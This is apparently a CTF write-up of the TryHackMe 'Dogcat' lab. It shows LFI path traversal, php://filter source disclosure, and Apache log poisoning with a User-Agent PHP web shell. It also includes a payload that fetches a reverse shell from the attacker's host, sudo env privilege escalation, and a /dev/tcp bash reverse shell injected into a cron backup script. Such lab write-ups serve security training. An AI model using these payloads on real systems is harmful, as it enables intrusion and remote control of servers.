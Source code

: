 ```yaml
---
layout: post
title: Dogcat | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-10 05:00:53 +0000'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```

- [Dogcat](#dogcat)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse shell](#reverse-shell)
- [Privilege Escalation:](#privilege-escalation)
- [4th Flag](#4th-flag)
<!-- toc -->

### Dogcat
Hallå gubbar , this my first ctf write-up i will try my best to make it easy for you so this box is webapp with lfi vulnerability and more the goal is to get 4 flags for more info check it out THM - DogCat

1 - Enumeration
2 - Exploitation
3- Reverse shell
4 - Privilege Escalation
5 - Flag 4



### Enumeration

Nmap scan & Results:
```sh
nmap -sV -p- -vv BoxIP
```

`22/tcp open ssh`
`80/tcp open http`

`Port 80` is open so we got web-server check the web page at 
```sh
http://box-ip
```

so let check lfi playloads
```sh
http://box-ip/?view=../../../../../../etc/passwd
```
We get the following message

Sorry,only dogs or cats are allowed

So we need to use dog /cat keyword
```sh
http://box-ip/?view=dog../../../../../../etc/passwd
```

`Warning : include(dog../../../../../../etc/passwd.php):failed to open stream....`

so we can read /etc/passwd now we need to bypass it by stooping including php extension to passwd

in this case we will need a meta-wrapper that allows the application of filters to stream at time of the opening. 


More info here
[https://www.php.net/manual/en/wrappers.php.php](https://www.php.net/manual/en/wrappers.php.php)
[https://www.w3schools.com/php/php_filter.asp](https://www.w3schools.com/php/php_filter.asp)

```sh
http://box-ip/?view=php://filter/convert.base64-encode/resource=index
```

decoded using CyberChef

```php
<?php
function containsStr($str, $substr) {
return strpos($str, $substr) !== false;
}
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
if(isset($_GET['view'])) {
if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
echo 'Here you go!';
include $_GET['view'] . $ext;
} else {
echo 'Sorry, only dogs or cats are allowed.';
}
}
?>


echo 'Here you go!';
include $_GET['view'] . $ext;
} else {
```
we have an other parameter `ext` that we can use it ,let try it 
```sh
http://box-ip//?view=php://filter/resource=dog../../../../../../etc/passwd&ext=
```
now we need to do some lfi to rce trick to get in using log poisonning our box runs on Apache so log dir should be here
```sh
var/log/apache2/access.log
```
```sh
http://box-ip/?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=
```
we can see some user-agent request registered in the logs ;)


### Exploitation

BURP TIMEEEEEE!!!! let intercept and inject our payload via user-agent data:D
Request:
```sh
GET /?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: box-ip
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Cache-Control: max-age=0
```
Reponse:
```sh
HTTP/1.1 200 OK
Date: Thu, 09 Jul 2020 18:54:37 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.3
Vary: Accept-Encoding
Content-Length: 6769
Connection: close
Content-Type: text/html; charset=UTF-8
```


*  First FLAG
```SH
http://box-ip/?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=&cmd=ls
```
```sh
cats
dog.php
dogs
flag.php
index.php
shell.php
style.css
```
```sh
http://box-ip//?view=php://filter/convert.base64-encode/resource=dog../../flag
```

decoded using 
[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)


### Reverse shell

What we need ?

1. Download Reverse shell 
2. Launch http server
3. Pop up the shell


1. Download Reverse shell 
get any shell my fav for ctf "pentestmonkey"
[Reverse shell php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

2. launch http server
```sh
python -m SimpleHTTPServer 1111
```

MAKE SURE TO EDIT THE SHELL AND REMEMBER THE LOCATION
`1111 PORT` U CAN CHANGE IT

I rename  the shell to Monkey and the location of the shell  is on the desktop.
```sh
http://Your-ip:1111/Desktop/Monkey.php
```
3. Pop up shell

Burp again !
```SH
Request:

GET /?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
Host: box-ip
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://Your-ip:1111/Desktop/Monkey.php'))?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
```
Reponse:
```sh
HTTP/1.1 200 OK
Date: Thu, 09 Jul 2020 19:22:45 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.3
Vary: Accept-Encoding
Content-Length: 16687
Connection: close
Content-Type: text/html; charset=UTF-8
```

http server confirmation:
```sh
Your-ip - - [09/Jul/2020 15:26:09] "GET /Desktop/Monkey.php HTTP/1.0" 200 -
```

Now we start listening to port (depend on you shell settings)
```sh
nc -lvnp 1234
```


* 2nd flag:



### Privilege Escalation:

* 3th Flag 
So now we need to be root we will use this command
```sh
sudo env /bin/bash
```
More details here :

[https://gtfobins.github.io/gtfobins/env/
](https://gtfobins.github.io/gtfobins/env/
)





### 4th Flag 
if we search in the backups dir we will find backup.sh that runs every-time,so now we need to edit this backupfile to reverse shell and bypass the docker-container using this command 
```sh
echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/ip/Your-IP/port 0>&1" >> backup.sh
```





Now we start listening to port 
```sh
nc -lvnp 9999
```


voila we got all our 4 flags btw flags looks like this `THM{xx_xx_xx}` :P

See you next time .....


